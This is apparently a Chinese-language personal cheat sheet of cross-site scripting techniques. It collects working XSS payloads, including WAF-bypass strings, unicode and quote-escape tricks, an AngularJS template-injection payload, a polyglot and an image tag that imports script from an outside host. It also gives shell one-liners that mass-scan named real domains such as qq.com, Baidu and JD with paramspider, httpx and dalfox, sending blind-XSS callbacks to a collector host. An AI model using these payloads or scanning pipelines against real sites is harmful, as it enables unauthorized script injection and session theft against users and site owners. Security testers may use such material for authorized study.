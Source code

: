# XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)



>Reflected XSS Akami Waf Bypass in Redirect Parameter using HTTP Parameter Pollution and Double Url Encode:

```
/login?ReturnUrl=javascript:1&ReturnUrl=%2561%256c%2565%2572%2574%2528%2564%256f%2563%2575%256d%2565%256e%2574%252e%2564%256f%256d%2561%2569%256e%2529
```



## 执行弹框的方法

```
<Img Src=//X55.is OnLoad=import(src)>
<Img+Src=//X55.is+OnLoad=import(src)>#confirm(document.domain)//
```



## 遇到ASP.net类型可以尝试unicode绕过

```
Xss in asp pages reflected inside span and < blocked.
Payloads:
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
```





### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## one-liner

```
python3 paramspider.py --domain qq.com -s TRUE -e js,css,woff,ttf,svg --output hackerone.txt

cat output/hackerone.txt| deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' |dalfox pipe --silence -b 360cdn.xss.ht | cut -d " " -f2

cat output/baidu.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' | dalfox pipe --silence -b 360cdn.xss.ht

cat src.txt| xargs -I {} python3 paramspider.py --domain {}  -s TRUE -e js,css,woff,ttf,svg,png,gif,jpg,PNG --output ./src/{}.txt

cat all_jd_sub_domain.txt|deduplicate|httpx -status-code -mc 200,301 -silent| awk '{print $1}' > 200_sub_jd.txt

cat src.txt| xargs -I {} | &&  cat ./src/*.txt | deduplicate --hide-images --sort | sed '1,4d'|httpx -status-code -mc 200 -silent | awk '{print $1}' >  src_url.txt && python3 removeDepeat.py && cat remove_src_url.txt | dalfox pipe --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt

dalfox file 200_all_url.txt --mass-worker 50 -b 360cdn.xss.ht  -o final_xss.txt
```



## 收集URL

```
gospider -s "https://passport.haodf.com/" --cookie "" -o output -c 10 -d 1 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|svg)" 
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`